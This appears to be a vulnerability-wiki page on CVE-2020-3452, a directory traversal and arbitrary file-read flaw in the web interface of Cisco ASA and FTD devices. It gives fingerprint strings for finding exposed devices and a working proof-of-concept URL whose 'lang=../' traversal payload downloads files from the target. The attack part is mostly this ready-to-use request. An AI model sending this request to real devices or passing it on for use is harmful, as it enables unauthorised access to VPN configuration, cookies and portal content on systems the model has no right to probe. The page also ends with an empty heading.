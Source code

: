 # Cisco ASA Devices Arbitrary File Reading Vulnerability CVE-2020-3452

## Vulnerability Description

The WEB management interface of Cisco Adaptive Security Appliance (ASA) firewall devices and Cisco Firepower Threat Defense (FTD) devices has unauthorized directory traversal vulnerabilities and remote arbitrary file reading vulnerabilities, allowing unauthenticated remote attackers to perform directory traversal attacks and read sensitive files on the target system. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files, so it can only read files in web system directories, such as webvpn configuration files, bookmarks, network cookies, some network content and hypertext transmission protocol URLs.

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco ASA device</span>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-1-20220314135401585.png)



<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco FTD device</span>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-2-20220314135403447.png)



## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">/+CSCOE+/</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco-ASA</span>



## Vulnerability reappears

Verify POC

```plain
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

A file will be downloaded



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-4.png)



## 